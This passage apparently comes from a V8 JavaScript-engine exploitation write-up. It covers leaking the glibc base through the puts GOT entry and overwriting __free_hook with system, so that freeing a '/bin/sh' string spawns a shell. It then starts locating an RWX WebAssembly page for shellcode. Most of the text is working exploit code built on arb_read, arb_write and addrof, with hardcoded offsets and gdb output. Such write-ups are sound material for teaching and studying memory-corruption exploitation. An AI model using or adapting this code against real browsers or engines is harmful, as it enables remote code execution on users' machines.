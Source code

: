 #### Leak glibc

Once we leak the PIE base, we can leak the `puts_got` symbol which is located at the `.got` segement and points to the function on the glibc page.

```
(gdb) got puts
GOT protection: Full RelRO | GOT functions: 228 
[0x5644e9dfe3b8] puts@GLIBC_2.2.5  →  0x7fd36c527970
```

```
let puts_got_addr = pie_base_addr + 0xD9A3B8n;
let puts_addr = arb_read(puts_got_addr);
let libc_base_addr = puts_addr - 0x80970n;
console.log("[+] Leak a libc pointer: 0x" + libc_base_addr.toString(16));
```

#### Overwrite the __free_hook to system

Then, we try to calculate the offset of `__free_hook` and `system` on within glibc.
```
(gdb) p &__free_hook
$1 = (void (**)(void *, const void *)) 0x7f55961f08e8 <__free_hook>

(gdb) p system
$2 = {int (const char *)} 0x7f5595e52420 <__libc_system>
```

```
let free_hook_addr = libc_base_addr + 0x3ed8e8n;
let system_addr = libc_base_addr + 0x4f420n;
arb_write(free_hook_addr, system_addr);
%SystemBreak();

// OUTPUT CHECK
(gdb) p __free_hook
$1 = (void (*)(void *, const void *)) 0x7fc5e6103420 <__libc_system>
```

Then, we just need that following line which will trigger `system('/bin/sh')` when the `/bin/sh` string is being freed.
```
console.log("/bin/sh");
```

### Achieve Control-flow Hijacking: Create RWX page with WebAssembly

Fot the JITed code, V8 will create a `RW-` page during the compilation of the corresponding hot function and then turns the permission of the page to `R-X` which means that once the JITed code has been allocated, we cannot overwrite it will our shellcode.

However, in the early version of V8, V8 will generate RWX page for WebAssembly. 

```
// https://wasdk.github.io/WasmFiddle/
var wasm_code = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
var wasm_mod = new WebAssembly.Module(wasm_code);
var wasm_instance = new WebAssembly.Instance(wasm_mod);
var f = wasm_instance.exports.main;

var rwx_page_addr = arb_read(addrof(wasm_instance)-1n+0x88n);

console.log("[+] RWX Wasm page addr: 0x" + rwx_page_addr.toString(16));

```